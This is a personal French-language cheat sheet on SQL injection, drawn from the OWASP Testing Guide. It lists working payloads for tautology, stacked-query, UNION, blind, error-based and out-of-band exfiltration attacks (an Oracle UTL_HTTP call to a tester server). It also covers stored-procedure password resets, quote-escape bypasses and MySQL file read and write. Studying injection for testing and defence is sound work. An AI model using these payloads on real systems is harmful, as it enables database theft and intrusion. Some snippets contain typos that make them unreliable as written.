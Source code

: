 # SQL Injection

## Standard Exploitation

Ecrire `‘or ‘1’ = ‘1`

```sql
# Transform this request : 
SELECT * FROM Users WHERE Username=’$username’ AND Password=’$password’

# In that : 
SELECT * FROM Users WHERE Username=’...’ OR ‘1’ = ‘1’ AND Password=’1’ OR ‘1’ = ‘1’
```

* Penser à utiliser `LIMIT` si besoin
* On peut aussi utiliser des commentaires au lieu de reformer la string `or 1=1 --`  \(be mindful of the last space\) ou `or 1=1#`
* Stacker des requêtes en terminant la 1ère avec un `;` \(impossible si la requête est dans une fonction la préparant, et non-géré par certains systèmes de db\) : `http://www.example.com/product.php?id=10; INSERT INTO users (…)` 

## Union Exploitation

Étendre une requête SELECT avec un `UNION`

```sql
# Tansform this request :
SELECT Name, Phone, Address FROM Users WHERE Id=$id

# In that :
SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

* `ALL` est utilisé pour contrecarrer `DISTINCT`
* On rajoute `1, 1` car il faut le même nombre de colonnes que le `SELECT` de base. 
  * Pour déterminer le nombre adéquat, on peut faire un `http://www.example.com/product.php?id=10 ORDER BY 10--` qui retournera soit une erreur, soit quelque chose s’il y a effectivement 10 colonnes.
* En occurrence c’est des int \(donc `1, 1`\), mais il faut que ces colonnes match aussi le types.
  * Pour ça, on peut tester en mettant d’abord null, puis en changeant le genre de données et en vérifiant l’erreur.
* Si seul le premier résultat est montré \(et donc celui de la requête véridique\), on peut fournir un id invalide, comme ça c’est le résultat de notre union qui sera remonté.

## Blind Exploitation \(Oracle\)

* Si le site réagit différemment si une query obtient un résultat ou non, on peut l'utiliser comme Oracle même s'il ne nous donne pas directement le résultat.
* Ca nous permet de deviner caractère par caracètre l'info qu'on recherche
* What to look for :
  * Difference in wording
  * Difference in response status code
  * Time-based difference

## Error Based Exploitation

Forcer des messages d’erreur donnant des informations. Par exemple, pour cette requête :

```sql
SELECT * FROM products WHERE id_product=$id_product
```

On peut lui demander de retourner un hostname en lui fournissant un user database name \(en oracle\) :

`http://www.example.com/product.php?id=10||UTL_INADDR. GET_HOST_NAME( (SELECT user FROM DUAL) )--`

Ce qui nous donnera cette erreur : `ORA-292257: host SCOTT unknown` révélant ainsi le user.

Cette technique diffère évidemment pour chaque database management system.

## Out of band exploitation

Cette technique consiste à utiliser des fonctions du DBMS \(Database management system\) pour envoyer les résultats à un serveur/autre, cela varie évidemment d’un DBMS à l’autre.

En oracle on pourrait par exemple faire ça :

`http://www.example.com/product.php?id=10||UTL_HTTP. request(‘testerserver.com:80’||(SELET user FROM DUAL)--`

Ce qui fera une requête GET vers testserver avec les résultats de la query. \(On peut setup le server avec netcat\).

## Stored Procedure Injection

Apparemment il existe ce genre de syntaxe :

```sql
Create procedure get_report @columnamelist varchar(7900) As Declare @sqlstring varchar(8000) Set @sqlstring = ‘ Select ‘ + @ columnamelist + ‘ from ReportTable‘ exec(@sqlstring) Go
```

Que l’on pourrait abuser avec ce genre d’input :`1 from users; update users set password = ‘password’; select *`

Mais je connais pas cette syntaxe donc je comprends pas trop.

## Insider Info

If you have an injection in a place where doing an "or 1=1" isn't useful, you may still be able to use it to show the table name & structure by injecting an sql command.

## MySQL Server Specificity

Disclaimer : y’a la même pour PL/SQL Server, Microsoft SQL Server, PostGre SQL, Miscrosoft Access et NoSQL mais vu que je les connais pas et que ça m’intéresse pas dans l’immédiat, je l’ai pas détaillé.

Fonctionnalités permettant des injections par version \(depuis y’a probablement eu de nouvelles versions\)

* From Version 4.0: UNION 
* From Version 4.1: Subqueries 
* From Version 5.0: Stored procedures, Stored functions and the view named INFORMATION\_SCHEMA 
* From Version 5.0.2: Triggers

### Single Quote Escape

MySQL permet d’escape les ', ce qui peut annuler certaines attaques quand ce n’est pas possible de contourner l’utilisation des '.

Mais dans certains cas on peut le contourner ainsi :

`password LIKE 'A%'` -&gt; `password LIKE 0x4125` -&gt; `password LIKE CHAR(65,37)`

If the db use the GBK charset \(simplified chinese\) and not the application, using `\xBF'` \(URL-encoded as `%bf%27`\) will prevent `addslashes` \(php function\) from correctly escaping the quote. \(Explained [here](http://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string)\)

### Lecture / Ecriture

* On peut écrire dans une fichier avec `into outfile 'path'` \(on ne peut pas contourner les ' ' donc s’ils sont escape, ça ne marche pas\).
* On peut lire avec `load_file(‘name’)`

### Autre

* On ne peut pas accumuler les requêtes \(donc utiliser le `;` pour en commencer une nouvelle\).
* Y’a 2 genres d’utilisateurs `USER()` et `CURRENT_USER()` mais je suis pas sûr des subtilités.
* Comments : `--` \(The space is important\) ou \`\#

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* Misc research

